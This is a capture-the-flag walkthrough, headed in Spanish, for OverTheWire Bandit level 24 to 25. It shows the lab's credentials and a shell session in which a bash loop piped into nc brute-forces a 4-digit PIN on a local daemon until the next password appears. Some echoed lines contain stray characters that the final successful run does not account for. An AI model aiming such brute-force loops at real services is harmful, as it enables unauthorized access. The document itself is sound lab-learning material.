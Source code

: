 # Level 24 -> 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
sh bandit24@**bandit.labs.overthewire.org** -p2220

user: bandit24
pass: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion 
```console
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Timeout. Exiting.
^C
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i int(0000..0005); do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
-bash: syntax error near unexpected token `int'
bandit24@bandit:~$ for i in (0000..0005); do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
-bash: syntax error near unexpected token `('
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0000
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0001
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0002
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0003
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0004
200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
^C
bandit24@bandit:~$ for i in {0000..0005}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:~$ for i in {0000..9999}; do echo 200~VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar~ $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```